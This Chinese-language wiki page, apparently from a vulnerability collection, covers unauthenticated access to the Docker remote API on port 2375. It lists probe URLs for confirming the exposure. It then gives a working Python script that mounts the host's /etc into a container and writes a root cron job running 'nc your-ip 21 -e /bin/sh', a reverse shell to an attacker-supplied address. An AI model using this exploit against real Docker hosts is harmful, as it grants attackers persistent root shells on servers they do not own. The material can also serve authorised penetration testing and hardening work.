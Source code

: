 # Docker 2375端口

## 关于

<a-checkbox checked>该未授权访问漏洞是因为 Docker remote api 可执行docker命令，获取信息</a-checkbox></br>

<a-checkbox checked>从官方文档可以看出，该接口是目的是取代docker 命令界面，通过url操作docker。</a-checkbox></br>

<a-checkbox checked>而Docker swarm是docker下的分布化应用的本地集群，在开放2375监听集群容器时，就会调用这个api</a-checkbox></br>

## 攻击方法

访问目标，验证未授权API调用

```bash
http://xxx.xxx.xxx.xxx:2375/version
http://xxx.xxx.xxx.xxx:2375/containers/json
```

![img](/assets/PeiQi-Wiki/img/1629509264213-4a39c72c-ce8c-42f4-af15-997bd7f86be6.png)

<a-checkbox checked>使用 Python脚本调用API 反弹Shell</a-checkbox></br>

```bash
import docker

client = docker.DockerClient(base_url='http://Remote-IP:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

![img](/assets/PeiQi-Wiki/img/1629509794103-4c27e6d1-8c28-441a-9b26-0f5326506451.png)